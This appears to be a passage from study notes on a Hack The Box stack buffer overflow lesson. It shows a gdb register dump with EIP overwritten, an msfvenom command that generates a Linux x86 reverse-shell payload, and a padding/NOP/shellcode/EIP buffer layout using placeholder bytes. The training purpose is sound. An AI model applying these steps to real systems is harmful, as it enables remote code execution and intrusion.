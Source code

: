 ```
esi            0xf7fc2000       -134471680  
edi            0x0      0  
eip            0x55555555       0x55555555  <-----# eip value changed
eflags         0x10282  [ SF IF RF ]  
cs             0x23     35  
ss             0x2b     43  
ds             0x2b     43  
es             0x2b     43  
fs             0x0      0  
gs             0x63     99
```
There we see when we run 1200 bytes of "U" in the form of hex we see our program output change and when we use `info register` command there we also see our `ebp` and `eip` register value is also changed.

**Page 7 / Determine the Length for Shellcode**

# Determine the Length for Shellcode

Now we should find out how much space we have for our shellcode to perform the action we want. It is trendy and useful for us to exploit such a vulnerability to get a reverse shell. First, we have to find out approximately how big our shellcode will be that we will insert, and for this, we will use `msfvenom`.

#### Shellcode - Length

Shellcode - Length

```shell-session
W4H33D@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

We now know that our payload will be about 68 bytes. As a precaution, we should try to take a larger range if the shellcode increases due to later specifications.

Often it can be useful to insert some `no operation instruction` (`NOPS`) before our shellcode begins so that it can be executed cleanly. Let us briefly summarize what we need for this:

1.  We need a total of 1040 bytes to get to the `EIP`.
2.  Here, we can use an additional `100 bytes` of `NOPs`
3.  `150 bytes` for our `shellcode`.

Shellcode - Length

```shell-session
   Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4'
```
